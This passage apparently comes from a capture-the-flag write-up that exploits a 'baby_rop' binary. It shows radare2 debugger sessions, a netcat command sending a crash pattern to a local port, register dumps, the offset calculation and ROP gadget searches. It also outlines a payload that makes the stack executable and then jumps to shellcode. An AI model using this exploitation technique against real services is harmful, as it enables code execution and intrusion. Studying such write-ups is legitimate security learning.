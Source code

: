 ```
pid = 3630 tid = 3630
[0x7fdf3649ccd0]> dc
r_debug_select: 3630 1
[0x08048e28]> dc
[+] Socket created.
```

We can now launch our ghetto-client:

```
echo "1234`ragg2 -P 100 -r`" | nc 127.01 4444
```

Back to radare2:

```
[+] Listening on 4444.
[+] New client : 127.0.0.1
[0xf770ac10]> dp
Selected: 3630 1
 * 3630 s (current)
 - 3629 s (ppid)
 - 3633 s ./baby_rop
[0xf770ac10]> dpa 3633
pid = 3633 tid = 3633
r_debug_select: 3633 3633
[0xf770ac10]> dc
[+] SIGNAL 11 errno=0 addr=0x41574141 code=1 ret=0
r_debug_select: 3633 1
[+] signal 11 aka SIGSEGV received 0
[0x41574141]> dr=
 r15 0x00000000         r14 0x00000000         r13 0x00000000
 r12 0x00000000         rbp 0x56414155         rbx 0x41415441
 r11 0x00000000         r10 0x00000000          r9 0x00000000
  r8 0x00000000         rax 0xffffffff         rcx 0xffebd890
 rdx 0x00000065         rsi 0x080ed00c         rdi 0x08049b30
orax 0xffffffffffffffff rip 0x41574141         rflags = 1PSIV
 rsp 0xffebd920        
[0x41574141]> woO 0x41574141
64
[0x41574141]> 
```

So, our shellcode will look like this: `[an int][padding on 64 bits][payload]`.

Our payload will:

1. set the global variable `__stack_prot` to 7
	1. Set a register to `0xfffffff` (no NULL bytes)
	2. Increment it 8 times, to make it equal to 7
	3. Overwrite `__stack_prot` with it
2. call `_dl_make_stack_executable` on the stack
3. jump to `esp`

```
[0x08048e28]> e rop.len = 2
[0x08048e28]> e search.count = 2
[0x08048e28]> "/R/ pop ebx;ret"
  0x080481c5             5b  pop ebx
  0x080481c6             c3  ret

  0x0804d826             5b  pop ebx
  0x0804d827             c3  ret

[0x08048e28]> 
```
